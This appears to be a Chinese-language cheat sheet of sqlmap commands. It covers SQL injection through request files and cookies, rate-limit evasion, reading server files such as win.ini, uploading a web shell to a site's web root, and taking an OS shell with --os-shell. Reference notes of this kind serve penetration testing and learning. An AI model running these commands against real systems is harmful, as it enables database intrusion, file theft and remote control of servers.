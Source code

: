 # 用例

**从文件读取HTTP请求，GET和POST都可以**

```bash
sqlmap -r "burp.txt" -p "username"	#-p 指定存在注入的参数
```

**Cookie注入**

```bash
sqlmap -u "http://www.vuln.com" --cookie "id=11" --level 2
```

**当防火墙，对请求速度做了限制**

```bash
sqlmap -u "http://www.vuln.com/post.php?id=1" --delay=10
#在每个HTTP请求之间的延迟10秒
```

## 伪静态注入

```bash
sqpmap  -u http://victim.com/id/666*.html --dbs  #在html扩展名前加个'*'
```

## 访问文件系统

仅对MySQL、MSSQL、PosgreSQL有效

数据库用户有读写权限，有目录读写文件权限

```bash
sqlmap -u url --is-dba
#查看是否dba权限,必须为root权限

sqlmap -u url --file-read "C:/Windows/win.ini"		
#读取文件

sqlmap -u url --file-write=D:/shell.php --file-dest=C:/www/shell.php
#上传文件 (本地木马路径:目标网站目录)
```

## 接管操作系统

仅对MySQL、MSSQL、PosgreSQL有效

数据库用户有读写权限，有目录读写文件权限

sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令**

```bash
sqlmap -u "URL" --os-shell	#获取系统交互shell或--os-cmd=id执行系统命令
```

[原理 (opens new window)](https://blog.sari3l.com/posts/8dea0d95/)就是上传一个upload木马后，再上传一个cmd shell；

